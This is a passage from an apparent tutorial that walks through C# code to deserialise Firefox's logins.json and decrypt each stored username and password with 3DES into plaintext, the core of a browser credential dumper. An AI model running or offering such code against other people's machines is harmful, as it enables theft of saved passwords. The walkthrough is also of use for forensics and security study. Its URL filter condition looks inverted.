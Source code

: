 ### Step 5 - Read and deserialise encrypted credentials

 I used [Json.NET from Newtonsoft](https://www.newtonsoft.com/json/help/html/Introduction.htm) to deserialise the login data in `logins.json`. Visual Studio makes it fairly easy to handle JSON data and creates a class for you just by copy/pasting the JSON data into a new class file. In this particular case, a "Rootobject" will contain an array of "Login" nested classes, which store all of the data for each individual login. From there it's easy to extract all of the login data:

```cs
public FirefoxLoginsJSON.Rootobject GetJSONLogins(string profileDir)
{
    string file = File.ReadAllText(profileDir + @"\logins.json");
    FirefoxLoginsJSON.Rootobject JSONLogins = JsonConvert.DeserializeObject<FirefoxLoginsJSON.Rootobject>(file);

    return JSONLogins;
}
```

### Step 6 - Decrypt the creds!

A collection of login data is now available as `JSONLogins`. Each `JSONLogins.Login.EncryptedUsername` and `JSONLogins.Login.EncryptedPAssword` is also still ASN.1. The ASN.1 data structure is slightly different to that used for the master key and password check as can be seen below. All that's left to do is:

1. iterate over each `Login` object in `JSONLogins`  
2. ASN.1 decode each username and password
3. 3DES decrypy each username and password using the master key
4. Add each decrypted username and password to a collection along with the corresponding URL
```cs
foreach (FirefoxLoginsJSON.Login login in JSONLogins.Logins)
{                 
    if (string.IsNullOrWhiteSpace(login.FormSubmitURL))
    {
	byte[] usernameBytes = Convert.FromBase64String(login.EncryptedUsername);
	byte[] passwordBytes = Convert.FromBase64String(login.EncryptedPassword);

	ASN1 usernameASN1 = new ASN1(usernameBytes);

	byte[] usernameIV = usernameASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[0];
	byte[] usernameEncrypted = usernameASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[1];

	ASN1 passwordASN1 = new ASN1(passwordBytes);

	byte[] passwordIV = passwordASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[0];
	byte[] passwordEncrypted = passwordASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[1];

	string decryptedUsername = Encoding.UTF8.GetString(Unpad(Decrypt3DESLogins(usernameEncrypted, usernameIV, Decrypted3DESKey)));
	string decryptedPassword = Encoding.UTF8.GetString(Unpad(Decrypt3DESLogins(passwordEncrypted, passwordIV, Decrypted3DESKey)));

	BrowserLoginData loginData = new BrowserLoginData(login.FormSubmitURL, decryptedUsername, decryptedPassword, "Firefox");
	FirefoxLoginDataList.Add(loginData);
    }
}
```
## And that's it!
